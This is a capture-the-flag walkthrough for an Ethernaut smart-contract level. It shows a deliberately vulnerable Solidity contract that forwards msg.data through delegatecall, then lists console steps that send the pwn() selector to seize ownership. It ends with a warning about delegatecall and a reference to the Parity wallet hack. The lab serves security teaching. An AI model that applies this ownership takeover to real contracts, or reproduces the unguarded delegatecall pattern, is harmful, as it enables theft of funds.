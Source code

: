 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg)

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## Solution

We’ll do this soution through the Ethernaut console (F-12).

1. First let’s check the value of `owner` by typing `await contract.owner()`
2. Now we’ll need to get the function signature of `pwn()` to pass into `msg.data` since that’s what the `delegatecall` is actually calling. We can do this through the following command: `pwnSignature = web3.utils.keccak256("pwn()")`
3. Now that we’ve got the function signature of `pwn()` we can include it in a transaction: `await contract.sendTransaction({data: pwnSignature})`
4. Now we can check to see if the `owner` has been updated.

___
Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
